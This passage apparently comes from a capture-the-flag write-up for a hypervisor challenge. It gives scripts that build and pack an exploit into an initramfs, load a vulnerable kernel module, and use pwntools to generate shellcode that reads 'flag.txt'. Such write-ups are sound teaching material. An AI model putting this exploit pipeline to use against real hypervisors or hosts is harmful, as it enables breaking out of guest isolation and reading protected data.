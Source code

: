 ```bash
#!/bin/sh

set -e
gcc -static main.c -o main
mv main initramfs

cd initramfs
find . -print0 | cpio --null --create --verbose --format=newc | gzip --best > ../initramfs_patched.cpio.gz
cd -
```

Finally, we modify the `init` script to invoke our `main` program when the kernel boots:

```bash
#!/bin/sh

echo 1 > /sys/module/rcutree/parameters/rcu_cpu_stall_suppress
echo "Hello kernel world!"

/sbin/insmod /vuln.ko
mknod /dev/exploited-device c 32 0
chmod ugo+x /main

exec /main
```

### Shellcode generation

To generate our shellcode and dump the flag, we use [pwntools](https://github.com/Gallopsled/pwntools)

```python
# gen-shellcode.py
from pwn import *

# Set up pwntools for the correct architecture.
context.binary = elfexe = ELF('./dicer-visor')

def dumpShellcode(shellcode):
    shellcode_str = ''
    for b in shellcode:
        shellcode_str += "\\x{:02x}".format(b)
    msg  = f'const char *shellcode = "{shellcode_str}";\n'
    msg += f'const size_t shellcode_len = {len(shellcode)};'
    print(msg)

shellcode = asm(
    '''
    xor     rdx, rdx /* O_RDONLY */
    ''' +
    pwnlib.shellcraft.linux.cat("flag.txt")
)
dumpShellcode(shellcode)
```
